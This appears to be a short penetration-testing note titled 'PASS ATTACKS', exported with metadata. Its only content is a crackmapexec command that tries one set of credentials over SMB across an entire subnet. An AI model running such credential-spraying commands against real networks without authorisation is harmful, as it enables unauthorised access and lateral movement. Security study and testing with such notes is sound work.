 ```yaml
---
title: PASS ATTACKS
updated: 2023-09-28 23:20:38Z
created: 2023-09-28 23:07:39Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# PASS ATTACKS  
`crackmapexec smb 192.168.140.0/24 -u user -d DOMAIN.local -p password`